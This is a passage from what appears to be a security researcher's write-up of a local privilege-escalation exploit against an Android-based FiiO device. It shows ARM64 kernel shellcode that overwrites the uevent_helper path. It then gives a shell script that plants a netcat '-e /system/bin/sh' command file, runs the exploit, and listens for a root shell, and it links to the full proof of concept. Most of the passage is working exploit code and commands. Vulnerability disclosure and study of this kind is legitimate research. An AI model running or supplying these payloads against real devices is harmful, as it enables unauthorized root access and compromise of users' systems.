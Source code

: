 ```asm
mov w3, #'/'  
strb w3, [x2, #15]  
mov w3, #'c'  
strb w3, [x2, #16]  
mov w3, #'m'  
strb w3, [x2, #17]  
mov w3, #'d'  
strb w3, [x2, #18]  
mov x3, xzr               // terminate our string with a null byte by moving 0x0 into x3 and storing x3 at x2 + 19
str x3, [x2, #19]  
  
sub x2, x21, #0x80        // ret to our win() function the same way we did in the previous shellcode
ldr x1, [x2]  
ldr x4, [x2, #0x08]  
mov x0, xzr  
MSR SP_EL0, x4  
MSR ELR_EL1, x1  
MSR SPSR_EL1, x0  
ERET
```

We can create an exploit bash script which does the following:

```sh
!/system/bin/sh
echo "[+] Creating malicious script at /data/local/tmp/cmd..."  
echo "#!/system/bin/sh" >> /data/local/tmp/cmd  
echo "/system/bin/busybox1.11 nc 127.0.0.1 4444 -e /system/bin/sh" >> /data/local/tmp/cmd  
chmod 777 cmd

echo "[+] Starting exploit..."  
/data/local/tmp/poc 2>/dev/null  
sleep 5

echo "[+] Launching listener..."  
echo "[!] Wait for r00t shell..."  
/system/bin/busybox1.11 nc -lp 4444
```

This script will create a new bash file at `/data/local/tmp` named `cmd`, which lines up with our shellcode. `cmd`'s only function is to forward a shell to a localhost listener on port 4444.

The script then runs our exploit code, which will overwrite the `uevent_helper` variable to point at our `cmd` file. Finally, we launch a listener on port 4444 waiting for the kernel to execute the `cmd` file, giving us a root shell.

![whoami_root](whoami_root.png)

The full exploit code can be found on my [GitHub](https://github.com/stigward/PoCs-and-Exploits/tree/main/fiio_LPE_0day).
